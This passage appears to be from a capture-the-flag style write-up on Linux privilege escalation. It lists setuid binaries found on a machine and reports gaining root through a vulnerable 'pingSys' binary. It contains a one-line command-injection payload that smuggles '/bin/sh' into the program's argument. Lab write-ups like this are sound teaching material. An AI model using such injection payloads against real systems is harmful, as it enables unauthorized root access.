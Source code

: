 /usr/bin/chage
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
</pre>

Nothing immediately sticks out, and none are listed on GTFObins so I research each one.

I found this:

[Privilege Escalation pingsys - securit.stackexchange.com](https://security.stackexchange.com/questions/196577/privilege-escalation-c-functions-setuid0-with-system-not-working-in-linux)

We are told to run the following command:

<pre>pingSys "127.0.0.1; /bin/sh"</pre>

![pingsys](https://imgur.com/4f9lo7o.png)

And we are root :)


